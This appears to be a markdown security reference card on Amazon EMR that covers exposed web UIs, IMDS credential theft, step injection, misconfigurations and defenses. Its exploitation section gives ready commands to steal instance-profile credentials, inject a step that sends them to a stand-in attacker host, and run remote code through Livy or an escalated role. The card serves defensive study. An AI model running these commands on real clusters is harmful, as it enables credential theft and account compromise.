

#  Amazon EMR Security



> **Category**: ANALYTICS

Amazon EMR (Elastic MapReduce) runs Apache Spark, Hadoop, Hive, Presto, and other big data frameworks on EC2 clusters. Cluster nodes expose numerous web UIs (YARN on 8088, Spark History Server on 18080, Livy on 8998, Hue on 8888, JupyterHub on 9443), run with EC2 instance profiles granting S3 access via EMRFS, and execute arbitrary code through steps and bootstrap actions. IMDS credential theft, exposed web interfaces, and over-privileged instance profiles are the primary attack surface.


## Quick Stats

| Risk Level | Scope | Default Encryption | Network |
| --- | --- | --- | --- |
| **HIGH** | **Regional** | **Off** | **SGs + BPA** |

## 📋 Service Overview

### Cluster Nodes and IMDS

EMR cluster nodes are EC2 instances with an instance profile (default: `EMR_EC2_DefaultRole`) that grants S3 access through EMRFS. Each node exposes the EC2 Instance Metadata Service at 169.254.169.254. IMDSv1 is vulnerable to SSRF-based credential theft from any application running on the cluster (Spark jobs, Jupyter notebooks, Livy endpoints).

> Attack note: Any code running on an EMR cluster node can query IMDS to obtain the EC2 instance profile credentials, which typically include broad S3 access

### Web Interfaces and Exposed Ports

EMR clusters host over a dozen web interfaces on the primary node: YARN ResourceManager (8088), Spark History Server (18080), Livy REST API (8998), Hue (8888), JupyterHub (9443), Zeppelin (8890), Ganglia (80), Tez UI (8080), HBase (16010), Flink History Server (8082), and HDFS NameNode (9870 on EMR 6.x, 50070 on pre-6.x). These are meant to be accessed only via SSH tunnel.

> Attack note: Livy (port 8998) accepts unauthenticated REST API calls to execute arbitrary code on the cluster if exposed to the network

## Security Risk Assessment

`████████░░` **8.0/10** (HIGH)

EMR clusters run arbitrary code by design, combine multiple EC2 instances with shared credentials, expose numerous unauthenticated web interfaces, and often have instance profiles with broad S3 access. Without encryption enabled via security configurations, data at rest and in transit is unprotected by default.

## ⚔️ Attack Vectors

### Credential Theft and SSRF

- SSRF from cluster applications to IMDS (169.254.169.254) to steal instance profile credentials
- Livy REST API (port 8998) allows unauthenticated remote code execution if network-exposed
- Jupyter/Zeppelin notebooks executing code that exfiltrates IMDS credentials
- YARN ResourceManager (port 8088) application submission to execute arbitrary code
- EMRFS credentials provide access to S3 data lakes, potentially across multiple buckets

### Step and Bootstrap Injection

- `elasticmapreduce:AddJobFlowSteps` permission allows injecting arbitrary code execution steps into running clusters
- Bootstrap actions execute as root on every node at cluster launch with no runtime guardrails
- Over-privileged EMR service role (`EMR_DefaultRole`) can be abused for cluster manipulation
- Malicious S3 objects replacing legitimate bootstrap scripts or step JARs
- Custom JAR steps run with full instance profile permissions on the cluster

## ⚠️ Misconfigurations

### Network and Access

- Security groups allowing inbound access to web UI ports (8088, 18080, 8998, 8888) from 0.0.0.0/0
- EMR block public access disabled for the account
- Primary node with public IP address in a public subnet
- No SSH tunnel or Apache Knox gateway for web interface access
- Kerberos authentication not configured (no user-level authentication on the cluster)

### Data Protection

- Security configuration not attached to the cluster (no encryption at rest or in transit)
- EBS volumes and local instance storage not encrypted with LUKS or EBS encryption
- EMRFS data in S3 not encrypted (SSE-S3, SSE-KMS, or CSE-KMS not configured)
- In-transit encryption (TLS) not enabled for Spark shuffle, HDFS transfers, and Presto internal communication
- Instance profile with overly broad S3 permissions (e.g., `s3:*` on `*`) instead of scoped EMRFS IAM roles

## 🔍 Enumeration

**List All Clusters**
```bash
aws emr list-clusters --active
```

**Describe a Cluster (security config, roles, instance profile)**
```bash
aws emr describe-cluster --cluster-id j-XXXXXXXXXXXXX
```

**List Security Configurations**
```bash
aws emr list-security-configurations
```

**Describe a Security Configuration (encryption settings)**
```bash
aws emr describe-security-configuration \
  --name my-security-config
```

**List Steps on a Cluster**
```bash
aws emr list-steps --cluster-id j-XXXXXXXXXXXXX
```

**List Bootstrap Actions on a Cluster**
```bash
aws emr describe-cluster --cluster-id j-XXXXXXXXXXXXX \
  --query 'Cluster.BootstrapActions'
```

**List Instances in a Cluster**
```bash
aws emr list-instances --cluster-id j-XXXXXXXXXXXXX
```

**Get Block Public Access Configuration**
```bash
aws emr get-block-public-access-configuration
```

**Get Cluster Session Credentials**
```bash
aws emr get-cluster-session-credentials \
  --cluster-id j-XXXXXXXXXXXXX \
  --execution-role-arn arn:aws:iam::123456789012:role/MyExecRole
```

## 📈 Privilege Escalation

### From Cluster Code Execution to AWS Account

- Any code running on a cluster node (Spark job, Hive query, bootstrap action) inherits the EC2 instance profile credentials
- Default `EMR_EC2_DefaultRole` historically included broad S3 access; stolen credentials can access the entire data lake
- `elasticmapreduce:AddJobFlowSteps` allows injecting steps that run arbitrary commands on cluster nodes
- `elasticmapreduce:RunJobFlow` with `iam:PassRole` allows launching a new cluster with any passable role, escalating to that role's permissions
- Livy REST API allows unauthenticated code execution on the cluster if port 8998 is reachable, leading to credential theft via IMDS

> **Key insight:** EMR clusters execute arbitrary code by design. The real privilege escalation risk is the gap between "can submit code to the cluster" and "the permissions the cluster's instance profile grants in AWS."

## 💻 Exploitation Commands

**Steal Instance Profile Credentials from a Cluster Node**
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Returns role name, then:
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```

**Submit a Malicious Step to a Running Cluster**
```bash
aws emr add-steps --cluster-id j-XXXXXXXXXXXXX \
  --steps Type=CUSTOM_JAR,Name=Exfil,Jar=command-runner.jar,Args=[bash,-c,"curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ > /tmp/creds && curl -X POST -d @/tmp/creds https://attacker.example.com/collect"]
```

**Execute Code via Livy REST API (if port 8998 is exposed)**
```bash
curl -X POST -H "Content-Type: application/json" \
  http://<emr-primary-node>:8998/batches \
  -d '{"file": "s3://attacker-bucket/malicious.py"}'
```

**Launch a Cluster with an Escalated Role**
```bash
aws emr create-cluster --name "escalation" \
  --release-label emr-6.15.0 \
  --instance-type m5.xlarge --instance-count 1 \
  --ec2-attributes InstanceProfile=HighPrivilegeRole \
  --service-role EMR_DefaultRole \
  --steps Type=CUSTOM_JAR,Name="cmd",Jar="command-runner.jar",Args=["aws","s3","ls"]
```

## 📜 Policy Examples

### Dangerous - Overly Broad Step Submission

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "elasticmapreduce:AddJobFlowSteps",
      "elasticmapreduce:RunJobFlow"
    ],
    "Resource": "*"
  }]
}
```

*Allows injecting arbitrary code steps into any EMR cluster or launching new clusters*

### Secure - Scoped Cluster Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "elasticmapreduce:DescribeCluster",
      "elasticmapreduce:ListSteps",
      "elasticmapreduce:ListInstances"
    ],
    "Resource": "arn:aws:elasticmapreduce:eu-west-1:123456789012:cluster/*",
    "Condition": {
      "StringEquals": {
        "aws:ResourceTag/Environment": "production"
      }
    }
  }]
}
```

*Read-only access scoped to tagged clusters in a specific region*

### Dangerous - Instance Profile with Full S3 Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "s3:*",
    "Resource": "*"
  }]
}
```

*Any code on the cluster can read/write/delete any S3 object in the account*

### Secure - Scoped EMRFS S3 Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "s3:GetObject",
      "s3:ListBucket"
    ],
    "Resource": [
      "arn:aws:s3:::my-data-lake-bucket",
      "arn:aws:s3:::my-data-lake-bucket/approved-prefix/*"
    ]
  }]
}
```

*Instance profile limited to read-only access on specific S3 prefixes*

## 🛡️ Defense Recommendations

### Enforce IMDSv2 on All Cluster Nodes

Require IMDSv2 session tokens to block SSRF-based credential theft from cluster applications.

```bash
aws emr create-cluster --name "secure-cluster" \
  --release-label emr-6.15.0 \
  --instance-type m5.xlarge --instance-count 3 \
  --ec2-attributes InstanceProfile=EMR_EC2_DefaultRole
# Note: IMDSv2 enforcement requires an EC2 launch template with
# MetadataOptions: {HttpTokens: required, HttpPutResponseHopLimit: 1}
# referenced via --instance-groups with LaunchTemplate configuration.
# The --ec2-attributes parameter does not support HttpTokens.
```

### Enable Encryption at Rest and in Transit

Create a security configuration that enables encryption for S3 data (SSE-KMS), local disk (LUKS), and in-transit (TLS).

```bash
aws emr create-security-configuration \
  --name "encryption-config" \
  --security-configuration '{
    "EncryptionConfiguration": {
      "EnableInTransitEncryption": true,
      "InTransitEncryptionConfiguration": {
        "TLSCertificateConfiguration": {
          "CertificateProviderType": "PEM",
          "S3Object": "s3://my-certs-bucket/certs.zip"
        }
      },
      "EnableAtRestEncryption": true,
      "AtRestEncryptionConfiguration": {
        "S3EncryptionConfiguration": {
          "EncryptionMode": "SSE-KMS",
          "AwsKmsKey": "arn:aws:kms:eu-west-1:123456789012:key/my-key-id"
        },
        "LocalDiskEncryptionConfiguration": {
          "EncryptionKeyProviderType": "AwsKms",
          "AwsKmsKey": "arn:aws:kms:eu-west-1:123456789012:key/my-key-id"
        }
      }
    }
  }'
```

### Keep Block Public Access Enabled

Verify BPA is enabled (it is by default). This prevents launching clusters with security groups that allow public inbound traffic on any port except SSH (22).

```bash
aws emr get-block-public-access-configuration
```

### Launch Clusters in Private Subnets

Place EMR clusters in private subnets with no public IP addresses. Use SSH tunnels, VPN, or an Application Load Balancer with authentication for web UI access.

### Enable Kerberos Authentication

Configure Kerberos for user-level authentication so that individual users are authenticated before accessing cluster services (HDFS, Hive, Spark).

```bash
aws emr create-cluster --name "kerberized-cluster" \
  --release-label emr-6.15.0 \
  --instance-type m5.xlarge --instance-count 3 \
  --security-configuration "encryption-config" \
  --kerberos-attributes Realm=EXAMPLE.COM,KdcAdminPassword=<password>
```

### Use EMRFS IAM Roles for Fine-Grained S3 Access

Instead of a single broad instance profile, configure EMRFS IAM role mappings in a security configuration so that different users or groups assume different roles when accessing S3 through EMRFS.

### Restrict Web Interface Access with Apache Knox

Deploy Apache Knox as a perimeter gateway to authenticate and proxy web interface traffic instead of directly exposing YARN, Spark UI, Livy, and other endpoints.

### Scope Instance Profile to Minimum Required S3 Paths

Replace the default `EMR_EC2_DefaultRole` with a custom role that grants access only to the specific S3 buckets and prefixes the cluster needs.

---

*Amazon EMR Security Card*

*Always obtain proper authorization before testing*
